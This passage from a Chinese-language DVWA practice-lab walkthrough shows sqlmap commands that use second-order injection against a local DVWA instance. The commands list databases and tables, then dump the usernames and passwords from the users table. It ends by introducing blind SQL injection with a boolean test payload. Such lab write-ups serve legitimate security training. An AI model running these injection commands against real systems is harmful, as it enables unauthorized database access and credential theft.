 



爆库

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/session-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli/" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" --dbs
```



爆表

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/session-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli/" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" -D dvwa --tables
```



爆列

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/session-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli/" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" -D dvwa -T users --columns
```



爆用户字段

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/session-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli/" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" -D dvwa -T users -C user --dump
```



爆密码字段

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli/session-input.php" --data "id=1&Submit=Submit" --second-u "http://192.168.10.129:3000/vulnerabilities/sqli/" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=high" -D dvwa -T users -C password --dump
```





## SQL Injection（Blind）

盲注就是无回显。盲注挺多的，布尔、时间，建议这类题目学会写脚本，或者使用SQLmap工具进行注入。

### Security Low

验证由注入漏洞，但是无回显

```
1' and 1=1#
```
